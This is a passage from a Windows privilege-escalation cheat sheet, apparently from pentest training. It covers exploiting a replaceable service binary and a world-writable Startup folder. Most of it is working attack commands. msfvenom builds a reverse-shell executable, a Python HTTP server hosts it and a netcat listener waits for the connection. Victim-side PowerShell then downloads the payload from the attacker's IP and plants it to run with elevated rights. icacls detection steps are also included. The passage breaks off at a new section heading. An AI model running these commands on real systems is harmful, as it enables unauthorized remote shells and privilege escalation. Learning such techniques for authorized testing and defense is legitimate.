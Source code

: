 ##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', 'C:\Temp\program.exe')
copy /y c:\Temp\program.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
sc start filepermsvc
```

#### Startup applications

##### Detection

```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

C:\>icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup BUILTIN\Users:(F)
                                                             TCM-PC\TCM:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)

If the user you're connecte with has full access ‘(F)’ to the directory (here Users) then it's vulnerable.
```

##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')

To execute it with elevated privileges we need to wait for someone in the Admin group to login.
```

#### Weak service permission

##### Detection
